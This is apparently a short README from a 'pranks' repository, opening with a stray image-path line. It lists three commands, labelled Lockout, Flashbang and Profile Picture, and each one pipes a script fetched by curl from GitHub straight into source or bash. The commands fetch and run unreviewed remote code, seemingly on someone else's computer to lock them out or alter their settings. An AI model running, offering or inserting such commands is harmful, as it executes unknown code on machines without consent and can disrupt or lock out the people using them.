 # Lockout
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/lockout/lockout.sh)

# Flashbang

    bash <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/flashbang/flashbang.sh)
    
# Profile Picture
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/face/chg_profile.sh)
